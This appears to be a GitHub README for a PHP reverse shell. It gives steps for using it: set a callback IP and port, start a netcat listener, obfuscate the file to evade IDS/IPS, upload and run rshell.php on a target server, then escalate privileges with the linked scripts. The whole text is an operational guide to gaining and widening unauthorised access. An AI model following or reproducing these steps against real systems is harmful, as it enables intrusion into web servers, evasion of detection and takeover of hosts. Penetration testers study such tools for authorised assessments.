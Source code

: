 # php-reverse-shell
make a php call home with netcat (i.e. a php reverse shell)

## step 1 change code 
    $ip = '127.0.0.1';  // CHANGE THIS
    $port = 443;       // CHANGE THIS

## step 2 set your caller
    nc -lvp 443
## optional step: (in case you signal an IDS / IPS) -> Obfuscate!
use http://www.fopo.com.ar/

## step 3 upload rshell.php and run it
![scrn](https://i.imgur.com/j3Lsy3R.png)

## step 4 escalate ;)
![scrn](https://i.imgur.com/w02EgM8.jpg)

- [linux-priv-escalation](http://www.securitysift.com/download/linuxprivchecker.py)
- [unix-priv-escalation](https://github.com/pentestmonkey/unix-privesc-check)
- [windows-priv-escalation](https://github.com/pentestmonkey/windows-privesc-check)
